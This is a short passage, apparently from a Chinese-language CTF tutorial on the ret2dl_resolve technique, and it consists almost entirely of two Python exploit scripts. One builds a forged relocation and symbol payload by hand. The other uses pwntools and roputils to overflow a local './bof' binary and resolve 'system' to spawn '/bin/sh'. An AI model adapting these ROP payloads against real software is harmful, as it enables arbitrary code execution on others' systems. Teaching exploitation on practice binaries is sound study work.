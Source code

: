 ```py
payload2 += p32(plt_0)
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

“给出一个使用roputils的方法”
```py
from pwn import *
from roputils import ROP
fpath='./bof'
p=process(fpath)
elf=ELF(fpath)
rop=ROP(fpath)
# context.terminal=['zsh']
bss_addr=elf.bss()
ret_offset=0x6c+4
payload=rop.retfill(ret_offset)
base_stage=bss_addr+0x20
payload+=rop.call('read',0,base_stage,100)
#第一个是fake_reloc...的地址，第二个是调用函数的参数列表
payload+=rop.dl_resolve_call(base_stage+0x30,base_stage)
payload+=rop.fill(0x100,payload)
p.send(payload)

payload=rop.string('/bin/sh')
payload+=rop.fill(0x30,payload)
payload+=rop.dl_resolve_data(base_stage+0x30,'system')
payload+=rop.fill(100,payload)
p.send(payload)
p.interactive()
```